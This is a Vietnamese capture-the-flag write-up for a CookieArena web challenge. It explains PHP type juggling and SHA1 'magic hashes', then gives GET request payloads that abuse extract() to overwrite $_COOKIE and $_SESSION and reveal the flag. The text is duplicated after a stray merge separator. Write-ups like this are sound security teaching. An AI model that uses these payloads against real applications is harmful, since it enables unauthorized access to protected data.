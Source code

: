 # Cookie and Milk 


[link-challenghe](https://battle.cookiearena.org/challenges/web/cookie-and-milk)

> Bài này có hai keyword được ghi dưới đề bài  : type juggling and hash magic 
>  đầu tiên là type juggling -> lỗi trong php từ phiên bản 8.x đổ xuống thì nó tùy còn ngữ cảnh mà sẽ ép  hai giá trị khi thực hiện so sánh qua if trong boolean expression về một loại chung , ví dụ như 
```
<?php
// Enter your code here, enjoy!
$a = "0d4545anh yêu em ";
$b = 0 ; 
var_dump($b == $a );

//output 
bool(true)
```
bởi nó sẽ dựa vào một bên chuỗi :  nếu 1 trong 2 là số , thì nó sẽ ép cả hai thành số , còn không cả hai là chuỗi thì nó sẽ có gắng ép thành numbers theo trang chủ php :>  !
 ![Alt text](image.png)
như thế kia vì ```$b=0``` là số thì ```$a``` cũng được ép thành số , lúc đó nó chỉ được coi là ```(int)$a``` và nó trở thành 0 cũng là số nên nó sẽ pass điều kiện ! 
> key word hash magic , khi các hàm mã như MD5 , SHA1 , .... mã ra một chuỗi "0e127617286... "  toàn là số đằng sau thì PHP sẽ hiểu là 0^127617 ... = 0 
[các bạn có thể xem thêm ở đây](https://github.com/spaze/hashes/blob/master/sha1.md)
vậy nên chỉ cần tìm hai chuỗi hash magic thì có phải nó đều được parse ra 0 thì 0 == 0  => return true

### BẮT ĐẦU VÀO BÀI 
SOURCE CODE : 
```
<?php
include(__DIR__."/flag.php");
extract($_GET);
if (isset($_COOKIE['magic']) && isset($_SESSION['magic']))  {
    if ($_SESSION['magic'] === $_COOKIE['magic']) {
        echo "I love Cookie Han Hoan";
    } else if (sha1($_SESSION['magic']) == sha1($_COOKIE['magic'])) {
        echo $flag;
    }
} else {
    highlight_string(show_source(__FILE__));
}
?>
```
hàm extract sẽ lấy các key trong array và biến nó thành variable bằng cách thêm $ và lấy value được truyền theo ! 
Có thể ghi đè luôn các biến có sẵn như $_GET, $_POST,$_COOKIE,$_SESSION 
+nếu như bình thường thì ở phía client mà ko có hàm  ```extract()``` 
thì mình không thể can thiệp vào giá trị của ```$_SESSION``` được ! 
ban đầu mình sẽ truyền giá trị của hai biến $_SESSION và $_COOKIE giống nhau : 
```
GET /?_COOKIE[magic]=haha&_SESSION[magic]=haha HTTP/1.1
```
tham số này sau khi gặpp hàm extract()  sẽ thành  $_COOKIE['magic'] = 'haha' ,$_SESSION['MAGIC'] ="haha" , các value nhận qua biến global đều sẽ ở dạng string .
OUTPUT :
![Alt text](image-1.png)
giờ nhiệm vụ là tìm hai chuỗi hash theo sha1 mà đều ra 0 -> ra flag 
ở đây mình sẽ lấy 2 payload là : 
```
GET /?_COOKIE[magic]=aaroZmOk&_SESSION[magic]=aaK1STfY 
```
>aaroZmOk:0e66507019969427134894567494305185566735
aaK1STfY:0e76658526655756207688271159624026011393 
->  và ta đã có flag 
``` CHH{TYpE_jU6gliNg_d5c3bd02e90fd038d98ad9c362715c47}```
=======
# Cookie and Milk 


[link-challenghe](https://battle.cookiearena.org/challenges/web/cookie-and-milk)

> Bài này có hai keyword được ghi dưới đề bài  : type juggling and hash magic 
>  đầu tiên là type juggling -> lỗi trong php từ phiên bản 8.x đổ xuống thì nó tùy còn ngữ cảnh mà sẽ ép  hai giá trị khi thực hiện so sánh qua if trong boolean expression về một loại chung , ví dụ như 
```
<?php
// Enter your code here, enjoy!
$a = "0d4545anh yêu em ";
$b = 0 ; 
var_dump($b == $a );

//output 
bool(true)
```
bởi nó sẽ dựa vào một bên chuỗi :  nếu 1 trong 2 là số , thì nó sẽ ép cả hai thành số , còn không cả hai là chuỗi thì nó sẽ có gắng ép thành numbers theo trang chủ php :>  !
 ![Alt text](image.png)
như thế kia vì ```$b=0``` là số thì ```$a``` cũng được ép thành số , lúc đó nó chỉ được coi là ```(int)$a``` và nó trở thành 0 cũng là số nên nó sẽ pass điều kiện ! 
> key word hash magic , khi các hàm mã như MD5 , SHA1 , .... mã ra một chuỗi "0e127617286... "  toàn là số đằng sau thì PHP sẽ hiểu là 0^127617 ... = 0 
[các bạn có thể xem thêm ở đây](https://github.com/spaze/hashes/blob/master/sha1.md)
vậy nên chỉ cần tìm hai chuỗi hash magic thì có phải nó đều được parse ra 0 thì 0 == 0  => return true

### BẮT ĐÀUA VÀO BÀI 
SOURCE CODE : 
```
<?php
include(__DIR__."/flag.php");
extract($_GET);
if (isset($_COOKIE['magic']) && isset($_SESSION['magic']))  {
    if ($_SESSION['magic'] === $_COOKIE['magic']) {
        echo "I love Cookie Han Hoan";
    } else if (sha1($_SESSION['magic']) == sha1($_COOKIE['magic'])) {
        echo $flag;
    }
} else {
    highlight_string(show_source(__FILE__));
}
?>
```
hàm extract sẽ lấy các key trong array và biến nó thành variable bằng cách thêm $ và lấy value được truyền theo ! 
Có thể ghi đè luôn các biến có sẵn như $_GET, $_POST,$_COOKIE,$_SESSION 
+nếu như bình thường thì ở phía client mà ko có hàm  ```extract()``` 
thì mình không thể can thiệp vào giá trị của ```$_SESSION``` được ! 
ban đầu mình sẽ truyền giá trị của hai biến $_SESSION và $_COOKIE giống nhau : 
```
GET /?_COOKIE[magic]=haha&_SESSION[magic]=haha HTTP/1.1
```
tham số này sau khi gặpp hàm extract()  sẽ thành  $_COOKIE['magic'] = 'haha' ,$_SESSION['MAGIC'] ="haha" , các value nhận qua biến global đều sẽ ở dạng string .
OUTPUT :
![Alt text](image-1.png)
giờ nhiệm vụ là tìm hai chuỗi hash theo sha1 mà đều ra 0 -> ra flag 
ở đây mình sẽ lấy 2 payload là : 
```
GET /?_COOKIE[magic]=aaroZmOk&_SESSION[magic]=aaK1STfY 
```
aaroZmOk:0e66507019969427134894567494305185566735
aaK1STfY:0e76658526655756207688271159624026011393 
->  và ta đã có flag 
``` CHH{TYpE_jU6gliNg_d5c3bd02e90fd038d98ad9c362715c47}```
